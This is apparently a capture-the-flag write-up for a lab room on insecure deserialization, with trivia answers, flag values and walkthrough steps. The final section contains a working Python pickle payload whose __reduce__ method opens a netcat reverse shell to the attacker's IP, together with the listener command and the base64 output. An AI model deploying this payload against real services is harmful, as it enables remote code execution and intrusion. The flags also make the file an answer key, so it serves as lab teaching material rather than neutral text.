




# Task 21~26

- [Task 21~26](#task-2126)
- [Insecure Deserialization](#insecure-deserialization)
  - [Who developed the Tomcat application?](#who-developed-the-tomcat-application)
    - [Answer](#answer)
  - [What type of attack that crashes services can be performed with insecure deserialization?](#what-type-of-attack-that-crashes-services-can-be-performed-with-insecure-deserialization)
    - [Answer](#answer-1)
- [Insecure Deserialization - Objects](#insecure-deserialization---objects)
- [Select the correct term of the following statement:](#select-the-correct-term-of-the-following-statement)
    - [Answer](#answer-2)
- [Insecure Deserialization - Deserialization](#insecure-deserialization---deserialization)
  - [What is the name of the base-2 formatting that data is sent across a network as?](#what-is-the-name-of-the-base-2-formatting-that-data-is-sent-across-a-network-as)
    - [Answer](#answer-3)
- [Insecure Deserialization - Cookies](#insecure-deserialization---cookies)
  - [If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be?](#if-a-cookie-had-the-path-of-webappcomlogin--what-would-the-url-that-the-user-has-to-visit-be)
    - [Answer](#answer-4)
  - [What is the acronym for the web technology that Secure cookies work over?](#what-is-the-acronym-for-the-web-technology-that-secure-cookies-work-over)
    - [Answer](#answer-5)
- [Insecure Deserialization - Cookies Practical](#insecure-deserialization---cookies-practical)
  - [1st flag (cookie value)](#1st-flag-cookie-value)
    - [Answer](#answer-6)
  - [2nd flag (admin dashboard)](#2nd-flag-admin-dashboard)
    - [Answer](#answer-7)
- [Insecure Deserialization - Code Execution](#insecure-deserialization---code-execution)
    - [Answer](#answer-8)
# Insecure Deserialization

## Who developed the Tomcat application?

### Answer

The Apache Software Foundation

## What type of attack that crashes services can be performed with insecure deserialization?

### Answer

denial of service

# Insecure Deserialization - Objects

# Select the correct term of the following statement:

### Answer

A Behaviour 

# Insecure Deserialization - Deserialization

## What is the name of the base-2 formatting that data is sent across a network as? 

### Answer

binary

#  Insecure Deserialization - Cookies

  

## If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be?

### Answer
webapp.com/login

## What is the acronym for the web technology that Secure cookies work over?

### Answer
https

# Insecure Deserialization - Cookies Practical

## 1st flag (cookie value)

  

```sh
echo -n "gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAZDYzOWIzNzUwMjM5NDM3ZTk4ZGZmOWM3NjEwOTYxZjlxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==" |base64 --decode
```

```md
}q(X    sessionIdqX d639b3750239437e98dff9c7610961f9qX
                                                      encodedflagqXTHM{good_old_base64_huh}qu.%
```

### Answer

qXTHM{good_old_base64_huh}

## 2nd flag (admin dashboard)

Change ```user``` to ```admin```

  


### Answer

THM{heres_the_admin_flag}

# Insecure Deserialization - Code Execution

1. on local machine

Run nc listener

```sh
nc -lvnp 4444
```

Edit the python script with your VPN IP

```python
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.18.1.159 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

Run python script and get the base64 command.

```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTguMS4xNTkgNDQ0NCA+IC90bXAvZpSFlFKULg==
```

Edit the encodedPayload and get remote access

  

```
cat /home/cmnatic/flag.txt
```

### Answer

4a69a7ff9fd68